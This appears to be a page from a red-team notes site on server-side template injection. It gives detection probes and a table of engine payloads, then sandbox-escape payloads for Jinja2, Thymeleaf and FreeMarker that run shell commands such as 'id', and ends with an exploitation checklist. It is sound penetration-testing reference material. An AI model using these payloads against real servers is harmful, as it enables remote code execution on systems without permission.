

repository: HollowR00t/Red-Team-Grimoire · page: Vulnerabilities/Web/SSTI/index.html · generator: mkdocs

# Server Side Template Injection (SSTI)

## Description 

This occurs when an attacker manages to inject code into a template that the server renders. Depending on the engine (Jinja2, Mako, Thymeleaf), it can lead to **Remote Code Execution (RCE)**.

## CSTI vs SSTI

* **CSTI (Client-Side Template Injection):** Occurs in the victim's browser (AngulaJS, Vue.js). The impact is similar to advanced XSS (cookie theft, CSRF). It does not grant access to the server.
* **SSTI (Server-Side Temprate Injection):** Occurs in the backend (Jinja2, Twing, Thymeleaf). Critical impact: Allows reading local files (LFI) or taking full control of the machine via RCE.

## Detection

Test with simple mathematical operations:
- `${7*7}`
- `{{7*7}}`
- `#{7*7}`
- `<%=7*7%>`

## Common Engines and Payloads

|   Engine    | Language |                  Test Payloads                  |
|:------------|:---------|:------------------------------------------------|
|**Jinja2**   |Python    |`{{config.items()}}`                             |
|**Thymeleaf**|Java      |`${T(java.lang.Runtime).getRuntime().exec('id')}`|
| **ERB**     |Ruby      |`<%=7*7&>`                                       |

*Recognition Tip:* Check with Wappalyzer first. If you detected Python, go straight to trying Jinja2. If you detect Java, try Thymeleaf/FreeMarker.

## Sandbox Escape Techniques (Object Introspection)

Moder engines run templates in a restricred "sandbox". To execute system commands, we must abuse introspection to escalate to native classes.

### Escape in Python (Jinja2/Mako)

We abuse language properties to find the `subprocess.Popen`.
1. **Instantiate a string:** `""`
2. **Parent class:** `"".__class__`
3. **Root base class:** `"".__class__.__mro__[1]`
4. **List native subclasses:** `"".__class__.__mro__[1].__subclasses__()`
5. **Execution(RCE):** Find the index of `subprocess.Popen` (or `os._wrap_close`) in the list above and call it to execute Bash: `{{"".__class__.__mro__[1].__subclasses__()[414]('id',shell=True,stdout=-1).communicate()}}`

### Escape in Java (Thymeleaf/FreeMarker)

* **Thymeleaf (Runtime Shortcut):** `${T(java.lang.Runtime).getRuntime().exec('calc')}`
* **FreeMarker (Instantiating Execute):** `<#assign ex="freemarker.template.utility.Execute"?new()>${ex("id")}`

## Explotation Checklist

- [] Inject mathematical payloads to confirm the vulnerability.
- [] Identify whether the execution is client-side (CSTI) or server-side (SSTI).
- [] Use Wappalyzer to narrow down the backend language (Python, Java, PHP).
- [] Inject `{{7*'7'}}` or similar to identify the exact template engine.
- [] Find and implement the specific sandbox escape technique to achieve RCE.
